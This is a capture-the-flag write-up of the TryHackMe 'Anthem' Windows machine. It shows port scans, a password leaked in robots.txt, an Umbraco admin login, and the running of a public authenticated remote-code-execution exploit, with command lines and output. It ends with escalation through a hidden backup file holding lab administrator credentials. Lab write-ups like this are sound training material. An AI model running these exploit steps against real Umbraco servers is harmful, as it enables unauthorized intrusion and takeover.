 ```yaml
---
layout: writeup
type: writeup
image: images/writeups/thm/anthem/logo.jpg
title: Anthem - TryHackMe
permalink: writeups/anthem
# All dates must be YYYY-MM-DD format!
date: 2021-04-20
labels:
  - TryHackMe
  - boot2root
  - Easy
  - Windows
  - Umbraco
summary: Exploit a Windows machine in this beginner level challenge.
---
```


<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/header.png">
<script src="https://www.tryhackme.com/badge/192700"></script>

```
MACHINE = Anthem
TARGET = VARIABLE
OS = WINDOWS
DIFFICULTY = EASY
```

## Enumeration

Starting with a rustscan to quickly enumerate open ports

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# rustscan -a 10.10.184.142 -b 1000 | tee rustscan
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 924'.
Open 10.10.184.142:80
Open 10.10.184.142:3389
```

Passing the open ports into nmap to enumerate further

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# nmap -T4 -A -p 80,3389 10.10.184.142 -oN nmap -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-28 21:24 WAT
Nmap scan report for 10.10.184.142
Host is up (0.24s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-28T20:24:41+00:00
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Not valid before: 2021-01-02T15:57:43
|_Not valid after:  2021-07-04T15:57:43
|_ssl-date: 2021-03-28T20:25:41+00:00; 0s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): AVtech embedded (87%), Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   296.98 ms 10.8.0.1
2   297.85 ms 10.10.184.142

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.39 seconds
```

I went to the site while I had a nikto scan running in the background
Checking the posts I get some possible users and even an email
Checking the source of the page I got one of the flags

```
Jane Doe - JD@anthem.com
James Orchard Halliwell
```

The nikto scan showed that robots.txt had some entries in it. Using curl to get the contents.

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# curl anthem.com/robots.txt
UmbracoIsTheBest!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

Umbraco is a “flexible open source .NET CMS”. 
After almost pulling my hair out to find the name of the administrator I just guessed the name of who the poem on the page was about, Solomon Grundy.
Following the same email pattern as Jane Doe, his email should be SG@anthem.com
I logged in using the password I found in robots.txt

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/1.png">

## Exploitation

I found the version by checking the help of the panel and got Umbraco v. 7.15.4. Searchsploit showed remote code execution vulnerabilities for this version

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/2.png">

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# searchsploit umbraco
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------- Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------Umbraco CMS - Remote Command Execution (Metasploit)                                                                                                                                                       | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                                                                                                                                | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                                                                                                | aspx/webapps/49488.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                                                                                                                                | php/webapps/44988.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------Shellcodes: No Results
```

Using the 3rd exploit and got remote code execution

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# cp /usr/share/exploitdb/exploits/aspx/webapps/49488.py ./umbraco_rce.py
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# python umbraco_rce.py -u sg@anthem.com -p UmbracoIsTheBest! -i 'http://anthem.com' -c powershell -a “whoami”
iis apppool\anthem

```

I enumerated the users on the machine and found user SG, which was probably solomon grundy. So i tried using remmina to login via rdp
I also played around with getting a reverse shell instead of using rdp but the antivirus was a pain and I don't know how to evade it YET.

```bash
┌──(root💀Toyin)-[~/infosec/thm/anthem]
└─# python2 umbraco_rce.py -u "sg@anthem.com" -p "UmbracoIsTheBest!" -i "http://anthem.com" -c powershell.exe -a "get-localuser"

Name               Enabled Description

----               ------- -----------

Administrator      True    Built-in account for administering the computer/domain

DefaultAccount     False   A user account managed by the system.

Guest              False   Built-in account for guest access to the computer/domain

SG                 True

WDAGUtilityAccount False   A user account managed and used by the system for Windows Defender Application Guard scen...
```

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/3.png">

## Privilege Escalation

I got the user.txt on the desktop.Following the hint about hidden files, I found a hidden folder named backup in C:\ and it contained a file named restore that I couldn't read.
For some reason I could enable inheritance and I got permissions to read the file

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/4.png">

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/5.png">

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/6.png">

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/anthem/7.png">

```
Administrator:ChangeMeBaby1MoreTime
```

I opened powershell admin with the credentials and got the root flag.

pwned